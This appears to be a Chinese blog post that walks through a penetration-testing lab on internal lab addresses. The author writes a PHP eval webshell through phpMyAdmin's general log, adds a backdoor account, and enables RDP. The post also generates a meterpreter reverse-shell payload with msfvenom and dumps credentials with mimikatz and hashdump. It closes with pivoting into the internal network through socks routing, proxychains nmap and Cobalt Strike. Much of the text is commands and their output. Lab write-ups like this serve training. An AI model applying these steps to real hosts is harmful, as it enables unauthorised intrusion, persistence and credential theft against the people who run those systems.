


ip 10.203.87.175
先扫端口
进来是个这
phpmyadmin 初始密码root 进去了
百度一下，phpMyAdmin怎么拿shell，点击变量开启日志文件，然后设置日志文件的存储路径
点击sql，创建日志文件，并定义它的路径
SET GLOBAL general_log_file='C:/phpStudy/www/123.php'
查看日志功能是否开启
show variables like '%general%';
确定日志文件开启，路径也确定了。那就可以开搞了，写入一句话
select '<?php eval($_POST[mbg]);?>'
祭蚁剑
拿下这个了
传自己的马 然后 删日志文件
控制台 ipconfig /all
应该是这个192.168.52.128的内网了
可以ping通
giegie的博客 真好
感觉蚁剑属实有点拉跨 就上冰蝎了
又传了个大马
创建新用户 admin1 Cc123456.
没有开启 3389 端口
执行语句
1
| wmic RDTOGGLE WHERE ServerName=``'%COMPUTERNAME%'` `call SetAllowTSConnections 1
|
执行结果
上 远程桌面 。 。。。
net group "domain admins" /domain
systeminfo
wmic useraccount get /all

下一步应该是探测其他主机来着
还得是meterpreter
上 msf
1
| msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.203.87.148 LPORT=5556 -f exe > dm.exe
|
1
2
3
4
5
6
| use exploit/multi/handler
show options
set payload windows/meterpreter/reverse_tcp
set LHOST 10.203.87.148
set Lport 5556
exploit
|
ipconfig
1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19
20
21
22
23
24
25
26
27
28
29
30
31
32
33
34
35
36
37
38
39
40
41
42
43
44
45
46
47
48
49
50
51
52
53
54
55
56
57
58
59
60
61
62
63
64
65
66
67
68
69
70
71
72
73
74
75
76
77
78
79
80
81
82
83
84
85
86
87
88
89
90
91
92
93
94
95
96
97
98
99
100
101
102
103
104
105
106
| meterpreter > ipconfig
Interface 1
============
Name : Software Loopback Interface 1
Hardware MAC : 00:00:00:00:00:00
MTU : 4294967295
IPv4 Address : 127.0.0.1
IPv4 Netmask : 255.0.0.0
IPv6 Address : ::1
IPv6 Netmask : ffff:ffff:ffff:ffff:ffff:ffff:ffff:ffff
Interface 11
============
Name : Intel(R) PRO/1000 MT Network Connection
Hardware MAC : 00:0c:29:cf:6e:ca
MTU : 1500
IPv4 Address : 10.203.87.175
IPv4 Netmask : 255.255.255.0
IPv6 Address : fe80::647d:d2d9:c482:23ec
IPv6 Netmask : ffff:ffff:ffff:ffff::
Interface 12
============
Name : Microsoft ISATAP Adapter
Hardware MAC : 00:00:00:00:00:00
MTU : 1280
IPv6 Address : fe80::5efe:acb:57af
IPv6 Netmask : ffff:ffff:ffff:ffff:ffff:ffff:ffff:ffff
Interface 14
============
Name : Bluetooth s Adapter
Hardware MAC : 00:1a:7d:da:71:11
MTU : 1500
IPv4 Address : 169.254.157.252
IPv4 Netmask : 255.255.0.0
IPv6 Address : fe80::4dfb:3571:6e28:9dfc
IPv6 Netmask : ffff:ffff:ffff:ffff::
Interface 15
============
Name : Microsoft ISATAP Adapter #2
Hardware MAC : 00:00:00:00:00:00
MTU : 1280
IPv6 Address : fe80::5efe:c0a8:3480
IPv6 Netmask : ffff:ffff:ffff:ffff:ffff:ffff:ffff:ffff
Interface 16
============
Name : Microsoft ISATAP Adapter #3
Hardware MAC : 00:00:00:00:00:00
MTU : 1280
Interface 17
============
Name : Microsoft ISATAP Adapter #4
Hardware MAC : 00:00:00:00:00:00
MTU : 1280
Interface 18
============
Name : Microsoft ISATAP Adapter #5
Hardware MAC : 00:00:00:00:00:00
MTU : 1280
Interface 22
============
Name : TAP-Windows Adapter V9
Hardware MAC : 00:ff:44:8d:cb:b5
MTU : 1500
IPv4 Address : 169.254.135.129
IPv4 Netmask : 255.255.0.0
IPv6 Address : fe80::480f:c25c:1f43:8781
IPv6 Netmask : ffff:ffff:ffff:ffff::
Interface 23
============
Name : TAP-Windows Adapter V9 #2
Hardware MAC : 00:ff:56:0b:ea:fc
MTU : 1500
IPv4 Address : 169.254.99.189
IPv4 Netmask : 255.255.0.0
IPv6 Address : fe80::4d82:616f:441c:63bd
IPv6 Netmask : ffff:ffff:ffff:ffff::
Interface 25
============
Name : Intel(R) PRO/1000 MT Network Connection #2
Hardware MAC : 00:0c:29:cf:6e:d4
MTU : 1500
IPv4 Address : 192.168.52.128
IPv4 Netmask : 255.255.255.0
IPv6 Address : fe80::294a:a094:512a:1cda
IPv6 Netmask : ffff:ffff:ffff:ffff::
|
只能说 有人 发病了 还3389,
还得是 msf
1
2
3
| getuid
getsystem
getuid
|
load mimikatz
kerberos
尝试获取明文密码，最后也没明出来
还是嘎嘎弄socks5去
run get_local_subnets
1
2
3
4
5
6
7
| meterpreter > run autoroute -s 192.168.52.0/24
meterpreter > run autoroute -p
meterpreter > background
msf5 exploit(multi/handler) > search socks
msf5 exploit(multi/handler) > use 0
msf5 auxiliary(server/socks5) > options
msf5 auxiliary(server/socks5) > run
|
1
| proxychains nmap -sT -sV -Pn -n -p 80,445,443,22,35,3306 192.168.52.1-254
|
你就说 这探测主机不香吗 为甚么有人发病啊
探测到 P了 c
这里还能用 cs 进行信息收集
先是 cs复制到 kali设置好主机 和密码
把下载好的cs复制到Kali
unzip解压
ls查看cs下的文件
查看是否具备Java环境
然后上线

利用cs与msf联动设置代理
cs的准备工作
开启cs服务端
设置IP和密码
开启客户端
设置监听
生成payload
执行payload
监听开始
目标主机上线
系统信息收集
选中右键，打开beacon功能
查看网络配置
shell ipconfig /all
主机密码收集
cs读内存
使用hashdump
cs读注册表密码
使用 logonpasswords
开代理
添加路由
和msf连起来老是断 。
下一步扫描内网主机
net view 内网信息收集
工具不是很会用 感觉问题挺多

 wechat
wechat alipay
alipay